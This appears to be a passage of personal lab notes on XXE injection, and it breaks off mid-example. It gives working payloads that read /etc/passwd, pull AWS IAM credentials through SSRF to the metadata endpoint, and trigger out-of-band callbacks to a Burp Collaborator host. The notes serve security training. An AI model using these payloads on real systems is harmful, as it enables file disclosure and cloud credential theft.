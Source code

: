 # XML external entities (XXE) injection

# Exploiting XXE using external entities to retrieve files. 
Get /etc/passwd
## Observations
- The stock check function uses XML. 
- Basic payload results in "entities are not allowed for security reasons".
- Had to append the xxe entity to the product number:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>1&xxe;</productId><storeId>1</storeId></stockCheck>
```

# XXE to perform SSRF
get the IAM secret for AWS. 
## Observations
- Stock check function uses XML. 
- Modified payload to request burp collab:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "http://v2ywufdo4vkc5oqsjujksv61csij6nuc.oastify.com" >]>
<stockCheck><productId>2&xxe;</productId><storeId>1</storeId></stockCheck>
```
- Simply change that to the AWS internal URL:
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/admin
```

# Blind XXE with OOB
Get a Burp Collab callback. 
## Observations
- Pretty much what I did in the first part of the attack above. 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "http://v2ywufdo4vkc5oqsjujksv61csij6nuc.oastify.com" >]>
<stockCheck><productId>2&xxe;</productId><storeId>1</storeId></stockCheck>
```

# Blind XXE with OOB using Parameter Entities
Get external interaction
## Observations
- So this one won't allow me to use the previous payload because it doesn't allow entities. To bypass this we can attempt parameter entities which means we change the structure of the payload to execute outside of the regular XML context. In between the header and query where the payload goes, we add % before the entity name to declare it as an entity then call it before we close it out.
The payload goes from this:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY xxe SYSTEM "http://v2ywufdo4vkc5oqsjujksv61csij6nuc.oastify.com"> ]>
<stockCheck><productId>2&xxe;</productId>...
```
To this: